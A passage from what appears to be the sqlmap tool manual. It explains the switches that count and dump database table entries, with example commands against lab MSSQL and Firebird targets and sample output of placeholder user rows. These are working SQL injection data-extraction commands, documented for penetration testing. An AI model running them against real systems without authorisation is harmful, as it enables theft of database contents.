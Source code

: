 `Database: testdb`\
`Table: users`\
`[3 columns]`\
`+---------+---------------+`\
`| Column | Type |`\
`+---------+---------------+`\
`| id | int(11) |`\
`| name | varchar(500) |`\
`| surname | varchar(1000) |`\
`+---------+---------------+`\
`[...]`

#### Retrieve number of entries for table(s)

Switch: `--count`\
In case that user wants just to know the number of entries in table(s) prior to dumping the desired one, he can use this switch.\
Example against a Microsoft SQL Server target:\
`$ python sqlmap.py -u "http://192.168.21.129/sqlmap/mssql/iis/get_int.asp?id=1"\`\
`--count -D testdb`\
`[...]`\
`Database: testdb`\
`+----------------+---------+`\
`| Table | Entries |`\
`+----------------+---------+`\
`| dbo.users | 4 |`\
`| dbo.users_blob | 2 |`\
`+----------------+---------+`\


#### Dump database table entries

Switch and options: `--dump`, `-C`, `-T`, `-D`, `--start`, `--stop`, `--first`, `--last`, `--pivot-column` and `--where`\
When the session user has read access to a specific database's table it is possible to dump the table entries.\
This functionality depends on option `-T` to specify the table name and optionally on option `-D` to specify the database name. If the table name is provided, but the database name is not, the current database name is used.\
Example against a Firebird target:\
`$ python sqlmap.py -u "http://192.168.136.131/sqlmap/firebird/get_int.php?id=1"\`\
`--dump -T users`\
`[...]`\
`Database: Firebird_masterdb`\
`Table: USERS`\
`[4 entries]`\
`+----+--------+------------+`\
`| ID | NAME | SURNAME |`\
`+----+--------+------------+`\
`| 1 | luther | blisset |`\
`| 2 | fluffy | bunny |`\
`| 3 | wu | ming |`\
`| 4 | NULL | nameisnull |`\
`+----+--------+------------+`\
\
This switch can also be used to dump all tables' entries of a provided database. You simply have to provide sqlmap with the switch `--dump` along with only the option `-D` (no `-T` and no `-C`).\
You can also provide a comma-separated list of the specific columns to dump with the option `-C`.\
sqlmap also generates for each table dumped the entries in a CSV format textual file. You can see the absolute path where sqlmap creates the file by providing a verbosity level greater than or equal to **1**.\
If you want to dump only a range of entries, then you can provide options `--start` and/or `--stop` to respectively start to dump from a certain entry and stop the dump at a certain entry. For instance, if you want to dump only the first entry, provide `--stop 1` in your command line. Vice versa if, for instance, you want to dump only the second and third entry, provide `--start 1` `--stop 3`.\